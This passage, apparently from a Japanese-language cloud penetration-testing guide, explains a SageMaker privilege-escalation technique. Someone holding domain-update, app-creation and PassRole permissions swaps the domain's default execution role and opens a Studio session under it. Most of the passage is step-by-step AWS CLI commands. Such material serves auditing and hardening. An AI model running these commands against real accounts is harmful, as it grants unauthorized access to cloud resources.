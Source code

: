 ```bash
#    aws sts get-caller-identity
#    (should show the high-privilege role from domain defaults)

```
**潜在的な影響**: 指定された SageMaker の実行ロールの権限への権限昇格（インタラクティブな Studio セッション向け）。


### `sagemaker:UpdateDomain`, `sagemaker:CreateApp`, `iam:PassRole`, `sagemaker:CreatePresignedDomainUrl`, (`sagemaker:DeleteApp`)

SageMaker Studio Domain を更新し、アプリとその presigned URL を作成し、`iam:PassRole` の権限を持っていると、攻撃者はドメインのデフォルト `ExecutionRole` を SageMaker サービスプリンシパルが引き受け可能な任意の IAM ロールに設定できます。そのプロファイルで起動される新しい Studio アプリは入れ替えたロールで実行され、Jupyter ターミナルや Studio から起動したジョブを通じてインタラクティブに権限昇格した操作を行えます。

> [!WARNING]
> この攻撃は、ドメイン内にアプリケーションが存在しないことを前提とします。存在する場合、アプリ作成は次のエラーで失敗します: `An error occurred (ValidationException) when calling the UpdateDomain operation: Unable to update Domain [arn:aws:sagemaker:us-east-1:947247140022:domain/d-fcmlssoalfra] with InService App. Delete all InService apps in the domain including shared Apps for [domain-shared] User Profile, and try again.`

手順:
```bash
# 1) List Studio domains and pick a target
aws sagemaker list-domains --query 'Domains[].{Id:DomainId,Name:DomainName}'

# 2) List Studio user profiles and pick a target
aws sagemaker list-user-profiles --domain-id-equals <DOMAIN_ID>

# Choose a more-privileged role that already trusts sagemaker.amazonaws.com
ROLE_ARN=arn:aws:iam::<ACCOUNT_ID>:role/<HighPrivSageMakerExecutionRole>

# 3) Change the domain default so every profile inherits the new role
aws sagemaker update-domain \
--domain-id <DOMAIN_ID> \
--default-user-settings ExecutionRole=$ROLE_ARN

aws sagemaker describe-domain \
--domain-id <DOMAIN_ID> \
--query 'DefaultUserSettings.ExecutionRole' --output text

# 3.1) Optional if you need to delete existing apps first
# List existing apps
aws sagemaker list-apps \
--domain-id-equals <DOMAIN_ID>

# Delete an app
aws sagemaker delete-app \
--domain-id <DOMAIN_ID> \
--user-profile-name <USER> \
--app-type JupyterServer \
--app-name <APP_NAME>

# 4) Create a JupyterServer app for a user profile (will inherit domain default role)
aws sagemaker create-app \
--domain-id <DOMAIN_ID> \
--app-type JupyterServer \
--app-name js-domain-escalated

# 5) Generate a presigned URL to access Studio with the new domain default role
aws sagemaker create-presigned-domain-url \
--domain-id <DOMAIN_ID> \
--user-profile-name <USER> \
--query AuthorizedUrl --output text

```